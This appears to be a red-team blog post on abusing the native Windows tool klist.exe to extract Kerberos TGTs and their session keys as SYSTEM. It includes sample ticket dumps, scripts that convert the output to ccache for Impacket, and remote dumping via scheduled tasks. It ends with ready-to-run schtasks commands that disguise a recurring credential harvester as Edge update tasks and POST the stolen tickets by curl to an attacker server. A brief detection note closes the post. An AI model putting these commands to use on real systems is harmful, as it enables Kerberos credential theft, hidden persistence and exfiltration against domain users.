



Microsoft Windows ships with the program `klist.exe`, found in `C:\Windows\System32`. Technology and security professionals may be most familiar with the program's default, parameter-less behavior of listing Kerberos tickets loaded in the current logon session. However, this behavior is just the surface of `klist`'s capabilities.

> 
> *The klist binary help menu.*

# Extracting TGTs

`klist` supports a variety of functions through parameters, including `purge`,`get`,`sessions`, and `tgt`. The latter two are of great interest to red team operations, as they seem to suggest potential for enumeration and post-exploitation. Indeed, executing `klist sessions` as a high-integrity Administrator-level process returns a list of active logon sessions:

```
C:\Windows\System32>klist sessions

Current LogonId is 0:0x15d6ed
[0] Session 1 0:0x15d6ed LUMON\jotter Negotiate:Interactive
[1] Session 1 0:0x154333 LUMON\jotter Kerberos:Interactive
[2] Session 0 0:0x3e5 NT AUTHORITY\LOCAL SERVICE Negotiate:Service
[3] Session 1 0:0x11ad7 Window Manager\DWM-1 Negotiate:Interactive
[4] Session 1 0:0x11a78 Window Manager\DWM-1 Negotiate:Interactive
[5] Session 0 0:0x3e4 LUMON\jotter-pc$ Negotiate:Service
[6] Session 1 0:0xb248 Font Driver Host\UMFD-1 Negotiate:Interactive
[7] Session 0 0:0xb23d Font Driver Host\UMFD-0 Negotiate:Interactive
[8] Session 0 0:0xa748 \ NTLM:(0)
[9] Session 0 0:0x3e7 LUMON\jotter-pc$ Negotiate:(0)
```

Similarly, executing `klist tgt` returns detailed information regarding our logon session's assigned TGT, as well as a hex dump of the ticket itself:

```
C:\Windows\System32>klist tgt

Current LogonId is 0:0x154333

Cached TGT:

ServiceName        : krbtgt
TargetName (SPN)   : krbtgt
ClientName         : jotter
DomainName         : LUMON.COM
TargetDomainName   : LUMON.COM
AltTargetDomainName: LUMON.COM
Ticket Flags       : 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96
                   : KeyLength 32 - 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
StartTime          : 3/6/2026 19:07:09 (local)
EndTime            : 3/7/2026 5:07:09 (local)
RenewUntil         : 3/13/2026 9:22:16 (local)
TimeSkew           :  - 0:05 minute(s)
EncodedTicket      : (size: 1162)
0000  61 82 04 86 30 82 04 82:a0 03 02 01 05 a1 0c 1b  a...0...........
0010  0a 4c 55 4d 4f 4e 2e 43:4f 4d a2 1f 30 1d a0 03  .LUMON.COM..0...
0020  02 01 02 a1 16 30 14 1b:06 6b 72 62 74 67 74 1b  .....0...krbtgt.
0030  0a 4c 55 4d 4f 4e 2e 43:4f 4d a3 82 04 46 30 82  .LUMON.COM...F0.
```

Unfortunately for us, the TGT's session key has been zeroed out, preventing us from using the hex dump directly as credential material. However, all is not lost - investigating the binary's source in Ghidra reveals an interesting set of operations following argument parsing. The program opens a handle to the current process token and calls `RtlAdjustPrivilege` with a privilege `7`, aka `SeTcbPrivilege`. In the event of a permissions failure (`0xc0000061`), the program falls back to a privilege `0x14`, `SeImpersonatePrivilege`. 

> 
> *Upgrading process privileges if possible.*

Following execution further, we can identify the function responsible for interfacing with LSASS and "extracting" Kerberos tickets. Rather strangely, it seems that `klist.exe` dynamically imports and resolves `LsaCallAuthenticationPackage` at runtime (a LOLBIN with IAT camoflauge to boot). 

> 
> *Dynamically importing secur32.dll and resolving LsaCallAuthenticationPackage.*

This call explains why the original `klist tgt` execution included a nulled session key; LSASS will scrub the session key for any requesting processes lacking `SeTcbPrivilege`. 

With some insight into the API calls behind `klist`, we can execute `klist tgt` as `NT AUTHORITY\SYSTEM` with `SeTcbPrivilege`. Doing so provides the full hex dump and uncensored session key for our machine account:

```
C:\Windows\System32>klist tgt

Current LogonId is 0:0x3e7

Cached TGT:

ServiceName        : krbtgt
TargetName (SPN)   : krbtgt
ClientName         : JOTTER-PC$
DomainName         : LUMON.COM
TargetDomainName   : LUMON.COM
AltTargetDomainName: LUMON.COM
Ticket Flags       : 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96
                   : KeyLength 32 - 3f a2 7c 14 d9 05 eb 62 18 4a f3 91 cc 07 5e b8 29 d1 83 4f 76 aa 0e c5 51 38 9d f7 e4 62 1a 08
StartTime          : 3/6/2026 19:07:09 (local)
EndTime            : 3/7/2026 5:07:09 (local)
RenewUntil         : 3/13/2026 9:22:16 (local)
TimeSkew           :  - 0:05 minute(s)
EncodedTicket      : (size: 1162)
0000  61 82 04 86 30 82 04 82:a0 03 02 01 05 a1 0c 1b  a...0...........
0010  0a 4c 55 4d 4f 4e 2e 43:4f 4d a2 1f 30 1d a0 03  .LUMON.COM..0...
0020  02 01 02 a1 16 30 14 1b:06 6b 72 62 74 67 74 1b  .....0...krbtgt.
0030  0a 4c 55 4d 4f 4e 2e 43:4f 4d a3 82 04 46 30 82  .LUMON.COM...F0.
```

What's more, we can now target other logon sessions and extract their uncensored TGTs:

```
C:\Windows\System32>klist tgt -li 0x154333

Current LogonId is 0:0x3e7
Targeted LogonId is 0:0x154333

Cached TGT:

ServiceName        : krbtgt
TargetName (SPN)   : krbtgt
ClientName         : jotter
DomainName         : LUMON.COM
TargetDomainName   : LUMON.COM
AltTargetDomainName: LUMON.COM
Ticket Flags       : 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96
                   : KeyLength 32 - b7 4e 03 91 2d f8 56 a0 e3 7b 19 cc 84 3d 6f 27 05 c2 ae 48 fd 91 30 7e b3 5a d4 08 61 ff 2c 94
StartTime          : 3/6/2026 19:07:09 (local)
EndTime            : 3/7/2026 5:07:09 (local)
RenewUntil         : 3/13/2026 9:22:16 (local)
TimeSkew           :  - 0:05 minute(s)
EncodedTicket      : (size: 1162)
0000  61 82 04 86 30 82 04 82:a0 03 02 01 05 a1 0c 1b  a...0...........
0010  0a 4c 55 4d 4f 4e 2e 43:4f 4d a2 1f 30 1d a0 03  .LUMON.COM..0...
0020  02 01 02 a1 16 30 14 1b:06 6b 72 62 74 67 74 1b  .....0...krbtgt.
0030  0a 4c 55 4d 4f 4e 2e 43:4f 4d a3 82 04 46 30 82  .LUMON.COM...F0.
```

# Klist to CCache

While an uncensored hex dump of a TGT and its session key seem like fantastic opportunities for post-exploitation, the format provided is not readily usable with available tooling. Most exploitation tools support Kerberos through the [MIT Credential cache, or ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html), format - including the Impacket library. 

Through the magic of an unnamed LLM, I was able to create [a python script](https://github.com/jakeotte/klist2ccache) that allows for the conversion of `klist tgt` output to ccache:

```
python klist2ccache.py -i tgt.txt

[*] Parsed ticket:
    client     : JOTTER-PC$@LUMON.COM
    server     : krbtgt/LUMON.COM@LUMON.COM
    key_type   : 18
    key        : 74f62dc212216c910b<SNIP>dc964137c70fb8f476b22852db398
    flags      : 0x40e10000
    start_time : 2026-03-06 17:44:00+00:00
    end_time   : 2026-03-07 03:44:00+00:00
    renew_till : 2026-03-13 08:13:41+00:00
    ticket     : 1229 bytes

[+] ccache written → JOTTER-PC$@LUMON.COM.ccache  (1450 bytes)

[*] Use with impacket:
    export KRB5CCNAME=JOTTER-PC$@LUMON.COM.ccache
    smbclient.py -k -no-pass <domain>/<user>@<target>
```

Provided command execution as `NT AUTHORITY\SYSTEM`, we can now opt out of using Rubeus for Microsoft's own solution. I should also mention the existence of the [PowerShell project `klist2`](https://github.com/apetro76/Klist2), a non-Windows-native binary that supports Kerberos ticket dumping even on credential guard enabled systems.

# Dumping TGTs "Remotely"

As you can imagine, the flexibility of using a Windows LOLBIN for Kerberos ticket extraction is unparalelled. Perhaps one of the most annoying situations many pentesters find themselves in is Administrative-level permissions on a host loaded up with EDR, preventing significant malware deployment. While named pipes may support the extraction of SAM or parts of LSASS, touching disk with obfuscated Rubeus or another loader can raise alarms and quarantine machines, causing TGT extraction to become a headache. 

With `klist`, we can simply use SYSTEM-level command execution to accomplish the same task. While not as OPSEC-friendly as an RDP session and manual copy-paste, I [vibe-coded a script](https://github.com/jakeotte/klist2ccache) to use Scheduled Tasks (atexec, my personal preference) as `NT AUTHORITY\SYSTEM` to execute `klist tgt` for all Kerberos sessions, write the output to a file, and download the file over SMB. 

```
> python klistremote.py lumon.com/jotter@jotter-pc.lumon.com
[*] Connecting to host ...
[*] Running remote: klist sessions ...
[*] Found 2 session(s) to dump:
[*]   - LUMON\jotter  (LogonId 0x154333)
[*]   - LUMON\jotter-pc$  (LogonId 0x3e4)
[*] [1/2] LUMON\jotter (0x154333) ...
[*]   -> ./jotter@LUMON.COM.ccache
[*] [2/2] LUMON\jotter-pc$ (0x3e4) ...
[*]   -> ./jotter-pc$@LUMON.COM.ccache
[*]
[*] Done. 2 ccache(s) written to .
[*]
[*] Use with impacket:
[*]   export KRB5CCNAME=./jotter@LUMON.COM.ccache
[*]   impacket-smbclient -k -no-pass LUMON/jotter@target
```

Afterwards, the output may be converted directly to ccache for use in further attacks. While this is a crude implementation, it does speed up the process of TGT extraction significantly over thick malware deployment.

# Creating a "TGT Harvester" with LOLBINs

The logical extension of this example is long-running Scheduled Tasks as LOLBIN TGT harvesters. While a poor choice for evasion against human investigators, automated credential extraction using only Windows-native programs has the potential to be strong against poorly tuned EDRs and AV engines.

Creating a scheduled task to write TGTs to an output file is simple enough:
```
schtasks /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "cmd.exe /c klist sessions > C:\Windows\Temp\s.txt && for /f \"tokens=4 delims= \" %i in ('findstr /r \"0x[0-9a-f]*\" C:\Windows\Temp\s.txt') do klist tgt -li %i >> C:\Windows\Temp\tgt.txt" /sc minute /mo 5 /ru SYSTEM /f
```

Creating an additional scheduled task to upload the output file to a server is just as easy with `curl`:
```
schtasks /create /tn "MicrosoftEdgeUpdateTaskMachineUA" /tr "cmd.exe /c curl -s -X POST http://10.10.10.10:8080/harvest --data-binary @C:\Windows\Temp\tgt.txt -H \"X-Host: %COMPUTERNAME%\" && del C:\Windows\Temp\tgt.txt" /sc minute /mo 5 /st 00:01 /ru SYSTEM /f
```

The first task enumerates all active logon sessions and dumps each TGT to a staging file. The second task, offset by a minute, picks up the file and POSTs it to our server before cleaning up. Both tasks masquerade as Edge "update tasks" - MicrosoftEdgeUpdateTaskMachine and MicrosoftEdgeUpdateTaskMachineUA are real task names on a default Windows install with Edge present.

# Conclusion

`klist` is a surprisingly capable LOLBIN for Kerberos credential material extraction. Provided SYSTEM-level command execution - a reasonable assumption in many post-exploitation scenarios - it offers a native alternative to Rubeus for TGT dumping with a smaller tooling footprint. 
From a defensive standpoint, the obvious detection opportunity is `klist.exe` spawning from unusual parents or being invoked with `tgt -li` against arbitrary logon IDs. Scheduled tasks running as SYSTEM that invoke klist should be considered immediately suspicious on any production host.